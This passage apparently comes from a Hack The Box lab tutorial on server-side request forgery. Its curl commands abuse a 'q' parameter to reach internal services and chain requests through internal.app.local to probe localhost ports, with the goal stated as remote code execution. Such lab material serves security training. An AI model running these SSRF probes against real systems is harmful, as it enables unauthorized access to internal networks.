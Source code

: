 We have received a valid response for port `5000`. Let us check it as follows.

#### cURL - Interacting with the Target

```shell
p3ta@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 64
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:47:16 GMT

<html><body><h1>Hey!</h1><a>Some internal app!</a></body></html>
```

Up to this point, we have learned how to reach internal applications and use different schemas to load local files through SSRF. Armed with this knowledge, let us try attacking the `internal.app.local` web application, again through SSRF. Our ultimate goal is to achieve remote code execution on an internal host.

First, we issue a simple cURL request to the internal application we discovered previously. Remember the information we uncovered that both applications load resources in the same way (via the `q` parameter).

#### cURL - Interacting with the Target

```shell
p3ta@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 83
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 13:51:15 GMT

<html>
<body>
<h1>Internal Web Application</h1>
<a>Hello World!</a>
</body>
</html>
```

Now, let us discover any web applications listening in localhost. Let us try to issue a request to a random port to identify how responses from closed ports look.

#### cURL - Interacting with the Target

```shell
p3ta@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 97
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 14:52:32 GMT

<html><body><h1>Resource: http127.0.0.1:1</h1><a>unknown url type: http127.0.0.1</a></body></html>
```
